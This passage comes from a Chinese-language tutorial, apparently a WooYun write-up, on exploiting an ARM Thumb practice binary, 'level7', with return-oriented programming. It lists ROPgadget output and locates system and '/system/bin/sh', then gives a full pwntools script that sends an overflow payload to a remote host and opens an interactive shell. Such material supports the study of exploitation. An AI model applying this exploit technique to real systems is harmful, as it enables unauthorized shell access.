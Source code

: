     
    
    #!bash
    $ ROPgadget --binary=./level7 --thumb | grep "ldr r0"
    0x00008618 : add r0, pc ; b #0x862e ; ldr r0, [pc, #0x10] ; add r0, pc ; ldr r0, [r0] ; b #0x8634 ; movs r0, #0 ; pop {pc}
    0x0000861e : add r0, pc ; ldr r0, [r0] ; b #0x862e ; movs r0, #0 ; pop {pc}
    0x0000893e : add r3, sp, #0xc ; movs r1, #0 ; str r3, [sp] ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
    0x000090fe : add r3, sp, #0xc ; str r3, [sp] ; movs r2, #0xc ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
    0x000093ca : add sp, #0x10 ; pop {r4, pc} ; push {r3, lr} ; bl #0x911c ; ldr r0, [r0, #0x48] ; pop {r3, pc}
    0x00008826 : add sp, r3 ; pop {r4, r5, r6, r7, pc} ; mov r8, r8 ; stc2 p15, c15, [r4], #-0x3fc ; ldr r0, [r0, #0x44] ; bx lr
    ……
    

在这些gadgets中，我们成功找到了一个gadget可以符合我们的要求：

    
    
    #!bash
    0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
    

接下来就是找system和`"/system/bin/sh"`的地址，分别为0x00008404和000096C0：

![p2](http://static.wooyun.org//drops/20151216/2015121615312684436227.png)

![p3](http://static.wooyun.org//drops/20151216/2015121615312843984321.png)

要注意的是，因为`system()`函数在plt区域，并没有被编译成thumb指令，而是普通的arm指令，因此并不需要将地址+1。最终level7.py如下：

    
    
    #!python
    #!/usr/bin/env python
    from pwn import *
    
    #p = process('./level7')
    p = remote('30.10.20.253',10001)
    
    p.recvuntil('\n')
    
    #0x0000894a : ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
    gadget1 = 0x0000894a + 1
    
    #"/system/bin/sh"
    r0 = 0x000096C0
    
    #.plt:00008404 ; int system(const char *command)
    systemaddr = 0x00008404 
    
    payload =  '\x00'*132 + p32(gadget1) + "\x00"*0xc + p32(r0) + "\x00"*0x4 + p32(systemaddr)
    
    p.send(payload)
    
    p.interactive()
    
